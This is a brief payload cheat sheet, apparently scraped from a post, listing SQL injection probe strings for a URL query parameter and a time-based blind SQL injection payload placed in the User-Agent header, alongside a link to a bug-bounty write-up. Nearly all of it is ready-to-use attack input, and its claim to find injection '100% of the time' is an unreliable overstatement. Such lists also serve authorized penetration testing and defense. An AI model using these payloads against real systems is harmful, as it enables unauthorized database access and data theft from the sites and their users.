 ```
This is how to find SQL injection 100% of the time, if there is one:/?q=1
/?q=1'
/?q=1"
/?q=[1]
/?q[]=1
/?q=1`
/?q=1\
/?q=1/*'*/
/?q=1/*!1111'*/
/?q=1'||'asd'||' <== concat string
/?q=1' or '1'='1
/?q=1 or 1=1
/?q='or''='

```


https://medium.com/@pranshux0x/super-blind-sql-injection-20000-bounty-thousands-of-targets-still-vulnerable-f9b013765448
```
Payload: User-Agent: "XOR(if(now()=sysdate(),sleep(5),0))XOR" 
```
